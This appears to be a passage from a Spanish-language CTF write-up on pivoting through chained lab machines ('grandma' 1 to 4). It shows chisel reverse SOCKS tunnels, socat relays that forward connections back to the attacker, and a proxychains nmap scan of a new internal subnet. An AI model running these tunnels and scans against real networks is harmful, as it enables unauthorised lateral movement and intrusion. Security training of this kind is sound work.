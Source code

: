 <br> 

# Pivoting grandma 3 

Para tener conectividad con la interfaz `40.40.40.0/24` desde nuestra máquina, vamos a tener que reedirigir la conexión de chisel a la grandma 2, y de la grandma 2 a la 1 hasta la nuestra 

```python 
// Grandma 3 chisel client 
./chisel_1.10.0_linux_amd64 client 30.30.30.2:4343 R:7777:socks & disown
```

```python
// Grandma 2 chisel redirection 
 ./socat TCP-LISTEN:4343,fork TCP:20.20.20.2:4343 & disown    
```

```python 
// Grandma 1 chisel redirection
./socat TCP-LISTEN:4343,fork TCP:172.17.0.1:1234 & disown
```

Vemos que se conecta correctamente 

![Image 22](/assets/images/grandma/chisel3.png) 

Añadimos el nuevo proxy creado a `/etc/proxychains.conf` y a `foxyproxy` 

<br> 

## Grandma 4 (40.40.40.0/24) 

<br> 

# Enumeración 

```python 
❯ proxychains nmap --top-ports 500 --open -Pn 40.40.40.3 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-13 20:28 CEST
Stats: 0:01:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 97.60% done; ETC: 20:29 (0:00:02 remaining)
Nmap scan report for 40.40.40.3
Host is up (0.14s latency).
Not shown: 499 closed tcp ports (conn-refused)
PORT     STATE SERVICE
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 70.22 seconds 
```
